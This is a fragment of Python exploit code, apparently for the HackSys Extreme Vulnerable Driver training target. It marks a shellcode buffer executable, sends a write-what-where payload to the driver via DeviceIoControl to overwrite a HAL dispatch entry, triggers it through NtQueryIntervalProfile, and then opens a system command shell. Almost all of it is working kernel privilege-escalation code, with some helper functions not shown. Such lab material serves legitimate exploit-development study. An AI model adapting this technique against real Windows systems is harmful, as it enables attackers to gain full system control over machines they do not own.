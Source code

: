 ```python
        new_buf_ptr = addressof(new_buf)
    except Exception as e:
        print("[!] Failed to allocate What buffer with error: " + str(e))
    print("[*] Allocated What buffer at: {}".format(hex(new_buf_ptr)[:-1]))

    print("[*] Marking What buffer RWX...")
    result = kernel32.VirtualProtect(
        new_buf,
        c_int(len(new_buf_contents)),
        c_int(0x40),
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code {}".format(str(GetLastError())))

    buf = struct.pack("<Q", new_buf_ptr)
    buf += struct.pack("<Q", target_hal)
    buf_length = len(buf)
    
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

def exploit():
    
    print("[*] Triggering with NtQueryIntervalProfile...")
    ntdll.NtQueryIntervalProfile(0x2408, byref(c_ulong()))

    print("[*] Opening system shell...")
    Popen("start cmd", shell=True)


        
img_name, kernel_base = base()
target_hal = hal_calc(img_name, kernel_base)
send_buf(target_hal)
exploit()
```
